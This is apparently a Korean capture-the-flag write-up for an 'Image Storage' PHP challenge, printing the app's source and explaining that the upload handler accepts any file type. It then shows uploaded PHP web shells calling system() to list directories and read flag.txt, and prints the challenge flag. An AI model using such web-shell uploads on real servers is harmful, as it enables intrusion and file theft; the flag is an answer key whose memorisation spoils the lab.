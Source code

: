 https://honey-push-30b.notion.site/Image-Storage-2bc7d28d73c04096ab48f55f8a1ec811

# 문제 접근

Image-Storage 문제의 접속 정보와 문제 설명 및 문제파일을 다운로드 받을 수 있다. 

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e2554962-7dba-4e23-9338-63cacec45595/_.png)

이번 문제의 경우 php파일 세개(index,list,upload)로 이루어져 있는데 하나씩 살펴보자

# Index.php

```php
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Image Storage</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/>
    <div class="container">
    	<h2>Upload and Share Image !</h2>
    </div> 
</body>
</html>
```

![index.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d8371054-160f-4a94-a4a2-417cfb3ef300/index.png)

그저 /(현재 인덱스 페이지), /list.php, /upload.php로 이동하는 기능 말고는 없다. 

# list.php

```php
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Image Storage</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/><br/>
    <div class="container"><ul>
    <?php
        $directory = './uploads/';
        $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
        foreach ($scanned_directory as $key => $value) {
            echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
        }
    ?> 
    </ul></div> 
</body>
</html>
```

핵심은 이부분이다.    

<?php
        $directory = './uploads/';
        $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
        foreach ($scanned_directory as $key => $value) {
            echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
        }
    ?> 

/uploads/ 디렉토리에서 “..”,”.”,”index.html” 셋을 제외한 다른 파일들을 찾아서 각 파일들의 링크를 걸어준다.

예를들어서 a.txt가 uploads 폴더에 있으면 $scanned_directory에는 a.txt가 있을 것이고 이 값을 value로 삼아서 echo”<li><a href='./uploads/a.txt'>"a.txt"</a></li><br/>” 이 되어버린다.

즉 내가 올린 파일이 php파일 이어도 그 php파일 내용을 볼 수 있다는 것이다. 그럼 php파일을 올릴 수 있는지 uploads.php를 확인하자.

# upload.php

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Image Storage</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>
        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/><br/>
    <div class="container">
      <form enctype='multipart/form-data' method="POST">
        <div class="form-group">
          <label for="InputFile">파일 업로드</label>
          <input type="file" id="InputFile" name="file">
        </div>
        <input type="submit" class="btn btn-default" value="Upload">
      </form>
    </div> 
</body>
</html>
```

<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>

부분이 핵심인데 내가 업로드하는 파일에 대한 검증은 이미 존재하는지만 체크한다. 그렇다면 php파일을 업로드하여 그 php파일을 통해 원하는 정보를 얻어낼 수 있다.

# 문제 풀이

일단 업로드한 php파일이 제대로 작동하는지 확인하기 위해서 간단한 php파일을 업로드했다.

```php
<?php
  system("ls")
?>
```

![ex1.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/71c03f70-b43c-4554-ae4d-75ce11520677/ex1.png)

![ex1(1).PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f6cf1fc8-bdf5-43cf-ab55-a2982f467b8a/ex1(1).png)

ls 결과 값이 아주 잘 작동하는 것을 볼 수 있다.  그렇다면 이제 디렉토리를 위로 올라가면서 flag.txt를 찾으면 된다.

```php
<?php
  system("cd ../ ;ls")
?>
```

![ex2.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/25ebe046-07be-4b36-abc9-92146aab222f/ex2.png)

```php
<?php
  system("cd ../../ ;ls")
?>
```

![ex3.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/782d262b-65dc-418b-8ea7-08947a799c39/ex3.png)

```php
<?php
  system("cd ../../../ ;ls")
?>
```

![ex4.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/86869017-b0e0-42fa-81d8-71fb3c6d6f90/ex4.png)

```php
<?php
  system("cd ../../../../ ;ls")
?>
```

![ex5.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1ff33066-676e-437a-94a6-1456566c400f/ex5.png)

드디어 flag.txt를 찾았다 그러면 이제 이 경로에서 cat flag.txt를 통해 확인해주면 된다.

```php
<?php
  system("cd ../../../../ ;cat flag.txt")
?>
```

![flag.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f86452e0-b3c0-43b9-9890-108e062217dd/flag.png)

DH{c29f44ea17b29d8b76001f32e8997bab} 를 찾았다
